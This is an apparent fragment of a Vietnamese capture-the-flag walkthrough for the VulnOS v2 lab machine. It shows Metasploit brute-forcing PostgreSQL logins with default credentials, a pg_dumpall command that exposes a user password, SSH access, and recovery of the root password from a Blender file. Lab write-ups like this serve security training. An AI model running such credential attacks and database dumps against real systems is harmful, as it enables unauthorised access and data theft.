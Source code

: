 [-] 127.0.0.1:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)

[-] 127.0.0.1:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed

msf6 auxiliary(scanner/postgres/postgres_login) >

dump db

$ PGPASSWORD="postgres" pg_dumpall -U postgres -h localhost -p 5432

vulnosadmin     c4nuh4ckm3tw1c3

thử đăng nhập ssh vào tài khoản mới

vulnosadmin@VulnOSv2:~$ ls

r00t.blend

vulnosadmin@VulnOSv2:~$ pwd

/home/vulnosadmin

copy file về máy

sudo scp vulnosadmin@192.168.1.13:/home/vulnosadmin/r00t.blend /

cài blender để mở file

apt-get install blender

Ta có mật khẩu root:

ab12fg//drg

